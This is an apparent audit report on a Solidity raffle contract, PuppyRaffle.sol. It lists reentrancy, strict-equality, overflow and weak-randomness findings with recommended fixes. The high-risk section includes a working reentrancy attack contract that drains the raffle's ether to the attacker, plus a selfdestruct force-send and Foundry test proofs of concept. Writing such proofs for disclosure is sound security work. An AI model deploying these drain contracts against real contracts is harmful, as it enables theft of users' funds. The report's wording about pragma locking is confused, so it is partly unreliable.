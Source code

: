 ## Summary

The PuppyRaffle.sol contract has undergone a comprehensive security audit, revealing a total of 9 vulnerabilities. These vulnerabilities have been classified into different severity levels to provide a more detailed understanding of their impact.

High Severity Issues (2): These are critical vulnerabilities that demand immediate attention. Addressing these problems is vital to ensuring the contract's security and integrity.

Medium Severity Findings (2): While not as severe as the high-risk issues, these findings still pose a substantial level of risk and should be prioritized for resolution.

Low Risk and Non-Critical Findings (5): These issues are relatively less critical but are worth addressing to maintain robust security practices and prevent potential future vulnerabilities.

This detailed breakdown of vulnerabilities allows a better assessment of the contract's overall security posture. It emphasizes the importance of addressing high and medium-risk issues promptly while also considering the low-risk findings to enhance the contract's long-term security and stability.

## Vulnerability Details

### High-Risk Issues

1. Reentrancy: The function refund() is prone to reentrancy attack. The Function didn't conform to the Check->Effect->Interaction rule, this action can lead to a reentracy attack. The state variable of players[playerIndex] = address(0), will be updated after the ether has been refunded. An attacker can reenter this function.
   The Proof of concept is below.

### POC

**Contract**

    // SPDX-License-Identifier: SEE LICENSE IN LICENSE
    pragma solidity 0.7.6;
    import "../src/PuppyRaffle.sol";

    contract AttackRaffle {
    PuppyRaffle immutable puppyraffle;

        address public immutable owner;
        uint256 myIndex;

        constructor(address _contractAddress) {
            owner = payable(msg.sender);
            puppyraffle = PuppyRaffle(_contractAddress);
        }

        function destroy(address _puppyContract) external {
            selfdestruct(payable(_puppyContract));
        }

        function playGame(uint256 entranceFee) external payable {
            // start by playing the game.
            address[] memory players = new address[](1);
            players[0] = address(this);
            puppyraffle.enterRaffle{value: entranceFee}(players);

            // then the main attack which is the refund function.
            myIndex = puppyraffle.getActivePlayerIndex(address(this));
            puppyraffle.refund(myIndex);
        }

        receive() external payable {
            if (address(puppyraffle).balance > 0) {
                myIndex = puppyraffle.getActivePlayerIndex(address(this));
                puppyraffle.refund(myIndex);
            } else {
                (bool success, ) = (owner).call{value: address(this).balance}("");
                if (!success) revert("Failed Transaction");
            }
        }
    }

**Test**

    function test_reenterancy_attack() external {
        // function that allow players enter the game
        testCanEnterRaffleMany();

        // The attack
        address owner = address(23);
        vm.prank(owner);
        attackRaffle = new AttackRaffle(address(puppyRaffle));
        vm.deal(address(attackRaffle), 1 ether);
        console.log(
            "Owner of the Attack Contract balance before the game",
            owner.balance
        );
        console.log(
            "puppyRaffle Contract's balance before contract entered the game",
            address(puppyRaffle).balance
        );
        vm.startPrank(address(attackRaffle));
        attackRaffle.playGame(entranceFee);
        console.log(
            "Owner of the Attack Contract balance after the game",
            attackRaffle.owner().balance
        );

        console.log(
            "puppyRaffle Contract's balance after the game",
            address(puppyRaffle).balance
        );
        vm.stopPrank();
    }

2. The use of strict operator: The function withdrawFees has a strict operation of ==, which can lead to a high vulnerability, when an addition wei or ether is sent to this contract, address(this).balance can never be equal to totalFees. Ether can not be withdrew to the feeAddress.

### POC

**Contract**

        function destroy(address \_puppyContract) external {
            selfdestruct(payable(\_puppyContract));
        }

This is a snippet from the above contract AttactPuppyRaffle.

**Test**

    function test_withdraw_attack() external {
        // function that select winner
        testSelectWinner();

        // The attack
        attackRaffle = new AttackRaffle(address(puppyRaffle));
        vm.deal(address(attackRaffle), 1 wei);
        vm.startPrank(address(attackRaffle));
        attackRaffle.destroy(address(puppyRaffle));

        puppyRaffle.withdrawFees();
        vm.stopPrank();
    }

**NOTE** All the test functions can be added to the PuppyRaffleTest file because testSelectWinner() and testCanEnterRaffleMany() are functions from the file.

### Medium Issue

1. In the function selectWinner(), If at any point in the raffle, the total fee exceeds 18.45 ether there will be an overflow and the totalfee will not be represented well. Why? Because the totalFee was stored with uint64 and the max for uint64 is 18,446,744,073,709,551,615.
2. The winner is deterministic. The use of msg.sender, block.timestamp, block.difficulty and player. length is very predictable especially to the miner.

### Low Issue

1. The was no check for zero address in the contructor, the feeAddress can be deployed with address(0), though it can be changed but it is not best practise.
2. The use of custom errors is the most optimal way for calling error.
3. The was no proper check on the array length on enterRaffle(), this could lead to a DOS attack on the system. The address were not also check if address(0) will be mistakenly included.
4. Unlocked pragma (for e.g. by not using ^ in pragma solidity 0.7.6) can lead the contract to accidentally get deployed using an older compiler version with unfixed bugs
5. Lastly, in gas optimization, it is better to save the length of the array before looping, this helps save gas.

## Impact

1. Reenterancy can lead to loss of the ether in the contract.
2. Strict operators can also lead to loss of ether from the contract.
3. In the function selectWinner() if at any point in the raffle the totalfee exeeds 18.45 ether there will be overflow, loss of funds.
4. The winner to the easy predictable or deterministic undermines the transparency and accountability of the contract
5. Zero checks on address can lead to loss of funds
6. The no proper check on the array length on enterRaffle() can lead to a DOS attack

## Tools Used

Manual Audit

## Recommendations

1. For the reenterancy, it is best practice to always apply the check->effect->interaction.
2. Also make use of a reenterancy lock or modifier to help secure the contract, Openzeppline offers good reenterncy guide.
3. Avoid the use of strict operators
4. Proper address Check
5. Instead of uint64 for the totalFee it is best you use uint256
6. It best to use a more secure and reliably random selection, Chainlink offers a good service on that.
7. The Contract should be deployed using the same compiler version/flags with which they have been tested. Locking the pragma (for e.g. by not using ^ in pragma solidity 0.7.6) ensures that contract do not accidentally get deployed using an older compiler version with unfixed bugs.

